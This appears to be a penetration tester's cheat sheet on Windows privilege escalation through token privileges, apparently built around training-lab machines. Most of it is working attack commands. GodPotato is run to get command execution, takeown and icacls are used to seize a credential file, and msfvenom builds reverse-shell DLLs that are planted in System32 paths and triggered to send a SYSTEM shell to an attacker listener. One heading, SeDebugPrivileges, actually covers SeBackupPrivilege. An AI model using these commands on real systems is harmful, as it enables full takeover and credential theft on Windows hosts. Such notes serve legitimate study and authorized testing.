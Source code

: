 https://github.com/gtworek/Priv2Admin

# SeImpersonatePrivileges
https://juggernaut-sec.com/seimpersonateprivilege/

If error occurs :-
- Execute `GetCLSID.ps1` script.
- Use `test_clsid.bat`

#### GodPotato
```cmd
# Check .NET version installed
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"

# Accordingly, download the GodPotato on the target system
.\GodPotato-NET4.exe -cmd "cmd /c whoami"
```
```powershell
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse
```

# SeDebugPrivileges
By default the `SeBackupPrivilege` is *not enabled* in a *low-integrity shell*!

https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960
OR
#backupoperators 


# SeTakeOwnershipPrivilege
Run this [script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) in **Powershell**
```powershell
PS C:\htb> Import-Module .\Enable-Privilege.ps1
PS C:\htb> .\EnableAllTokenPrivs.ps1
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```

```powershell
# Take ownership of a file
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
# Confirm ownership change
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}

# Modify file ACL
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
cat 'C:\Department Shares\Private\IT\cred.txt'
```


# SeManageVolumePrivilege
## Technique 1
```cmd
# Run exploit
C:\Users\svc_mssql> .\SeManageVolumeExploit.exe
```
```sh
# Create malicious dll & replace it in C:\Windows\System32\wbem\
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.49.211 LPORT=6666 -f dll -o tzres.dll
```
```powershell
# Execute systeminfo (triggering malcious dll). We get a SYSTEM shell back to our listener
PS> systeminfo
```


## Technique 2
```cmd
# Run exploit
C:\Users\svc_mssql> .\SeManageVolumeExploit.exe
```
```sh
# Create malicious dll & replace it in C:\Windows\System32\spool\drivers\x64\3\Printconfig.dll
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.49.211 LPORT=6666 -f dll -o Printconfig.dll
```
```powershell
# Initiate the PrintNotify object by executing the following PowerShell commands
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)
```